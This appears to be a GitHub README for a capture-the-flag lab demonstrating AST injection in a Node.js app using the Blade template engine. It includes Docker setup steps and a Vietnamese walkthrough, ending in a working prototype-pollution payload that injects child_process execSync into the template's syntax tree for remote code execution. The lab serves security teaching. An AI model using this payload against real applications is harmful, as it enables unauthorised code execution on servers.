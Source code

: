 # AST-injection-ctf
Demo AST injection in Nodejs app. <br/>
Docker and docker-compose required!

###### Build nodejs app image
`docker build -t demo-ctf .`<br/>
Ignore all the red line while build image :)))

###### Up docker-compose
`docker-compose up -d`

###### Run app
- Go to localhost:3000
- Reload until everything work correctly

## Try to RCE ^^

### Idea
###### Lướt qua các chức năng của trang web có thể rút ra được những điều như sau:
- Trang web được sử dụng cho các chức năng thống kê, vẽ biểu đồ
- Có 3 model chính là ransom, ransomware và victim
- Truy cập vào đường dẫn của từng model để kiểm tra chức năng, thấy được rằng 2 model ransomware và victim có chức năng xem chi tiết
- Kiểm tra chi tiết của 2 model, thấy rằng victim chỉ có thể download thông tin, còn ransomware có thể upload cấu hình mới lên để thực hiện update, có khả năng tải lên một file để khai thác lỗ hổng bảo mật
###### Quan sát tiếp source code của trang web ở đúng chức năng upload file cấu hình ransomware:
- Trang web sử dụng template engine là blade
- Chức năng update được comment lại để bảo trì
```
var config = parse(req.file.buffer.toString());
// await Ransomware.update(config, { where: { id: req.params.id } })  // database locked for maintenance
res.redirect('/ransomware/' + req.params.id);
```
- Nội dung file không được làm sạch trước khi thực thi chức năng
###### Nghiên cứu về quá trình template thực hiện compile giao diện 
![image](https://user-images.githubusercontent.com/61985236/110513072-648c4c80-8138-11eb-8bf0-97b1a513b9be.png)
- Bước cuối của quá trình trên là execute, do đó nếu chèn được câu lệnh khai thác vào cây AST trước khi được thực thi, có khả năng sẽ dẫn đến RCE

### Solution
- Tạo file exploit với nội dung dưới đây và lưu lại
```
test = 'Hey universe'
      
[__proto__.someprop]
name = "somename"
value = "somevalue"
code = "process.mainModule.require('child_process').execSync('ls')"
```
- Vào trang chi tiết của 1 ransomware bất kỳ, upload file exploit vừa tạo lên
- Kiểm tra source của trang mới, thấy rằng có thuộc someprop ở các thẻ có giá trị là kết quả của câu lệnh 'ls' được inject ở trong file exploit
